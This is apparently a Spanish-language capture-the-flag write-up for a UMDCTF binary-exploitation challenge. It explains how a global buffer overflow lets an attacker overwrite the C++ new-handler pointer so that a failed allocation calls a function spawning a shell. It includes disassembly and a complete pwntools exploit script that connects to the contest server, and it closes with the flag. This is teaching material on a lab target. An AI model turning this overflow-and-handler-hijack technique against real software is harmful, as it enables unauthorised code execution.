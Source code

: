 ## Analisis

El binario dado es un ELF de 64 bits, escrito en C++

El codigo fuente
```C++
#include <cstdio>
#include <cstdlib>

char number[128];

void sigma_mode() {
    system("/bin/sh");
}

int main() {
    setvbuf(stdout, NULL, _IONBF, 0);
    setvbuf(stdin, NULL, _IONBF, 0);

    printf("What size allocation?\n");
    fgets(number, 500, stdin);

    long n = atol(number);
    int *chunk = new int[n];
    // TODO: finish the heap chal
}
```


El programa toma nuestra entrada y asigna memoria dinamicamente para un array de ints de la extension que queramos.

Esto es un clasico ret2win porque ya tenemos una funcion (`sigma_mode`) que invoca una shell, solo tenemos que invocarla de alguna manera.

Tenemos una entrada para escribir en `number` 500 bytes pero `number` es un arreglo de solo 128 bytes, hay un buffer overflow aqui.

Ahora bien, tiene las siguientes propiedades:
```
[*] '/home/kalcast/Descargas/Unfinished/unfinished'
    Arch:       amd64-64-little
    RELRO:      Full RELRO
    Stack:      Canary found
    NX:         NX enabled
    PIE:        No PIE (0x400000)
    Stripped:   No
```

No tiene `PIE` asi que las direcciones de memoria son fijas

Aunque tiene canario habilitado hay un buffer overflow de todas maneras porque `number` es una variable local, se almacena fuera del stack y el `check_stack_fail` solo ocurre si el canario, que esta en el stack, se corrompe.

## Explotacion

Analicemos la direccion donde esta almacenado `number`:
```
[0x0041f060]> s obj.number
[0x0041f060]> ? obj.number + 500
int32   4321876
uint32  4321876
hex     0x41f254
```

Podemos sobreescribir cualquier cosa en el rango 0x41f060 --  0x41f254

Buscamos algo en ese rango y lo unico que tenemos es esto:
```
[0x0041f060]> afl~0x0041f
0x0041f120    1   3808 method.__gnu_cxx.__verbose_terminate_handler__::terminating
[0x0041f060]> s method.__gnu_cxx.__verbose_terminate_handler__::terminating
[0x0041f120]> pd 24
            ;-- __gnu_cxx::__verbose_terminate_handler()::terminating:
            ; DATA XREFS from __gnu_cxx::__verbose_terminate_handler() @ 0x403560(r), 0x40356d(w) ; method.__gnu_cxx.__verbose_terminate_handler__
/ 3808: method.__gnu_cxx.__verbose_terminate_handler__::terminating ();
; __gnu_cxx::__verbose_terminate_handler()::terminating
|           0x0041f120      0000           add byte [rax], al
|           0x0041f122      0000           add byte [rax], al
|           0x0041f124      0000           add byte [rax], al
|           0x0041f126      0000           add byte [rax], al
|           ;-- (anonymous namespace)::__new_handler:
|           ; DATA XREF from std::get_new_handler() @ 0x4105e4(r)
|           0x0041f128      0000           add byte [rax], al          ; (anonymous namespace)::__new_handler
|           0x0041f12a      0000           add byte [rax], al
|           0x0041f12c      0000           add byte [rax], al
|           0x0041f12e      0000           add byte [rax], al
|           ;-- once_regsizes.0:
```

Buscando informacion encontramos que `std::__new_handler` es un puntero a funcion que usan los metodos `std::set_new_handler` y  `std::get_new_handler()` y en su documentacion encontramos algo interesante:

![2025-04-27-191209_854x132_scrot](https://github.com/user-attachments/assets/66db19ac-0bf2-43f9-bff5-193e5c9cef8d)

![2025-04-27-191408_818x37_scrot](https://github.com/user-attachments/assets/d469297a-65dd-4323-857e-7f70205cbefc)

Esta funcion es llamada cuando una funcion de asignacion de memoria cuando falla algun intento de esto, por ejemplo `new`

Lo que debemos hacer es sobreescribir este puntero a funcion con la direccion de `sigma_mode` y luego forzar un error al asignar memoria con `new int[n]` 

Cuando n es un numero muy grande se produce el error `std::bad_alloc` pero si el numero es muy grande se produce el error `std::bad_array_new_length` y se termina la ejecucion sin llamar al handler:

```
|           0x00401a54      48bafeffff..   movabs rdx, 0x1ffffffffffffffe ; 2305843009213693950
|           0x00401a5e      4839c2         cmp rdx, rax
|       ,=< 0x00401a61      7206           jb 0x401a69
|       |   0x00401a63      48c1e002       shl rax, 2
|      ,==< 0x00401a67      eb05           jmp 0x401a6e
|      |`-> 0x00401a69      e882f6ffff     call sym.__cxa_throw_bad_array_new_length
```

Necesitamos usar un numero grande pero menor que 0x1ffffffffffffffe para causar el error que necesitamos y que se invoque al handler

Exploit:
``` python
from pwn import *

context.arch = 'amd64'
context.log_level = 'debug'

#p = process("./unfinished")
p = remote("challs.umdctf.io",31003)
elf = context.binary = ELF("./unfinished")

#gdb.attach(p, gdbscript='''
#    x/40wx 0x0041f120  # Ver zona de handlers
#    break *sigma_mode  # Parar antes de ejecutar la shell
#    continue
#''')

input_start = 0x0041f060
target_addr = 0x0041f128
sigma_mode = 0x004019b6

# Calcular el offset
offset = target_addr - input_start

payload = b"1844674407370955161"  # Desencadenar bad_alloc
payload += b"\x00" * (offset - len(payload))
payload += p64(sigma_mode)

print(f"Payload: {payload} len:{len(payload)}")

p.sendline(payload)
p.interactive()
```

`UMDCTF{crap_i_have_to_come_up_with_a_flag_too?????????}`
